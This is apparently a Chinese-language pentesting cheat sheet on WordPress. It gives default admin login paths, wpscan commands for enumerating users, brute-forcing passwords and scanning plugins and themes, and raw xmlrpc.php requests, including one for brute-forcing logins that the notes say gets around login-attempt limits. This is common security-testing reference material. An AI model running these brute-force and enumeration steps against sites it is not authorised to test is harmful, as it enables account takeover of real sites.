 ### WordPress

> 官网 : https://wordpress.org/

WordPress 是一个开源的内容管理系统(CMS),允许用户构建动态网站和博客.

**搭建教程**
- [WordPress 搭建](../../../Integrated/Linux/Power-Linux.md#WordPress)

**Tips**

- 默认的登录地址一般是 `/wp-admin` 或 `/wp-login.php`

**相关工具**
- [wpscanteam/wpscan](https://github.com/wpscanteam/wpscan) - kali 自带,漏洞扫描需要 API Token,可扫用户、漏洞、目录,挺好用的
    ```bash
    wpscan --url https://www.xxxxx.com/     # 直接扫描
    wpscan --url https://www.xxxxx.com/ --enumerate u    # 枚举用户
    wpscan --url https://www.xxxxx.com/ --passwords /tmp/password.txt   # 密码爆破
    wpscan --url https://www.xxxxx.com/ --usernames admin --passwords out.txt  # 指定用户爆破
    wpscan --url https://www.xxxxx.com/ --api-token xxxxxxxxCX8TTkkgt2oIY   # 使用 API Token,扫描漏洞
    wpscan --url https://www.xxxxx.com/ -e vp --api-token xxxxxxx    # 扫描插件漏洞
    wpscan --url https://www.xxxxx.com/ -e vt --api-token xxxxxxx    # 扫描主题漏洞
    ```
    - [WPScan使用完整教程之记一次对WordPress的渗透过程](https://xz.aliyun.com/t/2794)

**xmlrpc.php**

- [xmlrpc.php 漏洞利用](https://blog.csdn.net/u012206617/article/details/109002948)
- 查看系统允许的方法
    ```
    POST /wordpress/xmlrpc.php HTTP/1.1
    Host: www.example.com
    Content-Length: 99

    <methodCall>
    <methodName>system.listMethods</methodName>
    <params></params>
    </methodCall>
    ```

- 账号爆破

    一般情况下，wordpress 的管理后台都会设置账号登录失败次数限制，因此，可以通过 xmlprc.php 接口来进行爆破。通常会使用 wp.getUserBlogs、wp.getCategories 和 metaWeblog.getUsersBlogs 这个方法来进行爆破，也可以使用其他的方法。
    ```
    POST /wordpress/xmlrpc.php HTTP/1.1
    Host: www.example.com
    Content-Length: 99

    <methodCall>
    <methodName>wp.getUsersBlogs</methodName>
    <params>
    <param><value>admin</value></param>
    <param><value>password</value></param>
    </params>
    </methodCall>
    ```
